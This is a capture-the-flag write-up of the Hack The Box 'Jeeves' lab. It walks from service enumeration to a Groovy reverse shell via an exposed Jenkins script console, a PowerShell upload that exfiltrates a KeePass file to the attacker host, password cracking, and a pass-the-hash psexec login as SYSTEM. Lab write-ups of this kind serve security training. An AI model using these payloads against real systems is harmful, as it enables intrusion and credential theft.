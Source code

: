# Jeeves - Writeup

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed several open services:
```
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds  Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http          Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
```

Based on the scan results, I identified:
- Microsoft IIS web server running on port 80
- SMB services on port 445 
- A Jetty web server running on port 50000
- Hostname: JEEVES
- Operating System: Windows (likely Windows Server 2008 R2 or Windows 8.1)

### Web Enumeration
Looking at the web server on port 80, I found a basic "Ask Jeeves" themed search page that didn't reveal much functionality.

For the Jetty server on port 50000, I ran directory enumeration:
```bash
gobuster dir -u http://10.129.228.8:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

This revealed an interesting directory:
```
/askjeeves            (Status: 302) [Size: 0] [--> http://10.129.228.8:50000/askjeeves/]
```

## Gaining Initial Access

### Jenkins Discovery
Following the `/askjeeves` redirection, I discovered a Jenkins automation server. Jenkins is a popular open-source automation server that is often misconfigured and can be leveraged for remote code execution.

Jenkins provides a script console feature that allows running Groovy scripts directly on the server. This is a powerful feature that, if accessible, can lead to remote code execution.

I navigated to the script console:
```
http://10.129.228.8:50000/askjeeves/script
```

From there, I was able to execute arbitrary Groovy code, which I leveraged for a reverse shell.

### Obtaining a Reverse Shell
I set up a netcat listener on my attack machine:
```bash
nc -lvnp 4444
```

Then I used the following Groovy script in the Jenkins script console to establish a reverse shell:
```groovy
String host="10.10.16.3";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

After executing the script, I received a reverse shell connection to my netcat listener, providing me initial access to the system.

## Privilege Escalation

### Credential Hunting
After gaining access to the system, I began searching for potential privilege escalation vectors. In the Documents folder, I discovered a KeePass password database file:
```
C:\Users\kohsuke\Documents\CEH.kdbx
```

I transferred this file to my attack machine using a simple Python HTTP server:
```bash
# On the target
powershell -c "(New-Object System.Net.WebClient).UploadFile('http://10.10.16.3:8000/upload.php', 'C:\Users\kohsuke\Documents\CEH.kdbx')"

# On my attack machine
python3 -m http.server 8000
```

### KeePass Password Cracking
Once I had the KeePass database file, I needed to crack the master password:
```bash
keepass2john '/home/kali/Documents/PEN200/HTB/Jeeves/CEH.kdbx' > hash
john hash -w:'/usr/share/wordlists/rockyou.txt'
```

This revealed the master password: `moonshine1`

### Credential Analysis
Opening the KeePass database with the cracked password revealed stored credentials:
- Admin account password: `S1TjAtJHKsugh9oC4VZl`
- Hash for a backup account: `aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00`

### Gaining Administrative Access
I first attempted to use the admin password directly with PsExec:
```bash
psexec.py Administrator@10.129.228.8 -p 'S1TjAtJHKsugh9oC4VZl'
```

This resulted in a login error. 

I then tried using the hash (pass-the-hash technique) with PsExec:
```bash
psexec.py Administrator@10.129.228.8 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

This was successful and provided me with a SYSTEM-level shell.

## Flag Extraction

Once logged in as Administrator, I navigated to the usual location for the root flag but encountered an unusual situation. The flag wasn't immediately visible in the Administrator's desktop.

After some exploration, I discovered that the flag was hidden in an Alternate Data Stream (ADS). Windows NTFS file systems support ADS, which allows files to contain more than one stream of data.

To list files with ADS, I used:
```cmd
dir /r /a
```

This revealed an alternate data stream named `root.txt` within a file called `hm.txt`.

To read the contents of this alternate data stream, I used:
```cmd
more < hm.txt:root.txt
```

This successfully displayed the root flag
